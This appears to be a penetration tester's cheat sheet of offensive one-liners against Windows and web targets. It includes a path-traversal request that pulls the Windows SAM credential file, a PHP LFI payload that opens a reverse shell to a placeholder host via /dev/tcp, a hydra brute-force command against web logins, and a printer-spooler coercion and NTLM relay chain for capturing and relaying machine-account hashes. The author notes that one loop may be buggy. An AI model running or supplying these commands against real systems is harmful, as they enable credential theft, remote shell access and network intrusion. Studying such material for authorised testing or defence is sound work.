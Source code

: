 ### 1. Want to exfiltrate binary data embedded in HTML tags?

```
 wget -qO- 'http://X.X.X.X/vulnpage?vulparam=..\..\..\..\..\..\..\..\..\..\..%5cWINDOWS%5cRepair%5cSAM%00en' |perl -l -0777 -ne 'print $1 if /<title.*?>\s*(.*?)\s*<\/title/si' > SAM
```

### 2. PHP LFI, but no file (php, phar) gets executed?

```
data:text/plain,<?php passthru("bash -i >& /dev/tcp/X.X.X.X/4444 0>&1"); ?>
```

### 3. Trying to get a password on a web interface?

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt X.X.X.X http-post-form "/URL/Login:User=^USER&password=^PASS:F=<String indicating attempt has failed>" -I
```

### 4. Having trouble connecting to RDP?

> transport_connect_tls:freerdp_set_last_error_ex ERRCONNECT_TLS_CONNECT_FAILED [0x00020008]

```
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:rdp
# OR, if having a different connect error, also try:
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:tls
# and if you want to have files and clipboard there:
xfreerdp +clipboard /u:user /p:'password' /v:X.X.X.X /d:domain /sec:<whatever> /drive:<absolute path to your local folder>,/
```

### 5. Want to get some machine accounts’ hashes?

Most tips are from [hack tricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printers-spooler-service-abuse).

```
# https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py
rcpdump.py <IP>|grep MS-RPRN
# https://github.com/NotMedic/NetNTLMtoSilverTicket
python dementor.py -u Guest -p ''  <target> <responder>
```

You can also relay those hashes, as it is likely not interesting to crack them, using [ntlmrelay](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py):

```
# list machines with SMB
nmap -p139;445 -T5 <subnet>/24 -oG - | awk '/Up$/{print $2}' > smb.lst
# shortlist IP's with spooler active (might be bugged, I haven't retested it and I typed it from what I recall)
while read ip; do rcpdump.py $ip|grep -q MS-RPRN && echo $ip >> spooler.lst || :;done < smb.lst
# generate a list of targets without SMB signing
crackmapexec smb <subnet> --genrelay-list > targets.lst
# start relay server
ntlmrelayx.py -l loot -smb2support -socks -tf targets.lst
# force NetNTLMv2 authentication to your relay (need valid credentials to perform the attack)
while read ip; do python dementor.py -u user -p 'password' $ip <responder ip>;done < spooler.lst
# profit
nc localhost <port open by ntlmrelayx>
```

